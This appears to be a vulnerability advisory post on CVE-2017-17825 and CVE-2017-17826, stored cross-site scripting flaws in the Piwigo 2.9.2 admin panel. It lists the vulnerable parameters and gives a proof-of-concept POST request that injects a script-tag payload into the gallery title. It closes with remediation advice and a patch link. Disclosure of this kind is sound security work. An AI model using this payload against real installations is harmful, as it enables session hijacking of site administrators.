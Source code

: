 ```yaml
---
layout: post
title: CVE-2017-17825 Multiple Stored XSS Vulnerabilities in Piwigo 2.9.2
---
```


### Affected Version : <=2.9.2


### Description:

It was identified that admin panel of Piwigo application is vulnerable to multiple [Persistent Cross Site Scripting](https%3A%2F%2Fwww.owasp.org%2Findex.php%2FCross-site_Scripting_%28XSS%29) vulnerabilities. An attacker can exploit these vulnerabilities to hijack client's browser along with the data stored in it.  


### Vulnerable Instances:

- /admin.php?page=batch_manager&mode=unit, **[POST] tags-[] [CVE-2017-17825]**
- /admin.php?page=configuration&section=main, **[POST] gallery_title [CVE-2017-17826]**



### Proof of Concept:

Configuration *component*

**REQUEST**

```markdown
POST /piwigo-2.9.2/piwigo/admin.php?page=configuration&section=main HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost/piwigo-2.9.2/piwigo/admin.php?page=configuration
Content-Type: application/x-www-form-urlencoded
Content-Length: 310
Cookie: pwg_id=ljmb7f4h6rsrdkv9bgotsl9ja3;
Connection: close
Upgrade-Insecure-Requests: 1

gallery_title=`</title><script>alert(document.domain)</script>`&page_banner=test+banner&order_by%5B%5D=date_available+DESC&order_by%5B%5D=file+ASC&order_by%5B%5D=id+ASC&rate_anonymous=on&allow_user_registration=on&allow_user_customization=on&week_starts_on=monday&history_guest=on&log=on&mail_theme=clear&submit=
```

**RESPONSE**

![stored xss](/assets/images/piwigo2.9.2/2.png)

### Remediation:

As the application make use of MVC architecture, it is recommended to implement a middleware or centralized controller that uses **[Context Specific Filtering](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet])** which sanitizes user input before printing it to user.

### Vendor Patches:

The patch released by vendor for this issue can be found [here](https://github.com/Piwigo/Piwigo/commit/c3b4c6f7f0ddeaea492080fb8211d7b4cfedaf6f)

